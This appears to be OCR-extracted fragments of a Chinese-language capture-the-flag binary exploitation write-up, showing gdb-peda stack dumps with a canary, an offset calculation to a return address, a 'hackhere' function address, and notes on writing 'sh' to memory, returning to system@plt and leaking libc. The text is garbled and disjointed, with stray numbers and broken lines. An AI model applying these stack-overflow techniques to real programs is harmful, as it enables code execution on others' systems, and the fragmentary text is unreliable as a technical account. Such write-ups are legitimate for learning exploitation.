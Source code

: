 可输入99 个目标

0024| 0xffa28814 ("AAAAAAA\001")
0028| 0xffa28818 --> 0x1414141
0032| 0xffa2881c --> 0x20beeb00   canary 
0036| 0xffa28820 --> 0xf77293dc  
0040| 0xffa28824 --> 0xffa28840  
0044| 0xffa28828 --> 0x0
0048| 0xffa2882c --> 0xf758f637 (<__libc_start_main+247>:    


0x7e4cac00

100        0
101        -84      
102        76       0x4c
103        126      0x7e



0xffdbce58  v13[0]
0xffdbcedc  ret

gdb-peda$ p 0xffdbcedc - 0xffdbce58
$12 = 0x84

0x804859b hackhere


没有 /bin/bash ??

布置 sh 到0x804a100

设置返回地址 system_plt aaaa  0x804a100



泄露libc地址




    '108\t\t-32\n'
    '109\t\t-44\n'
    '110\t\t-14\n'




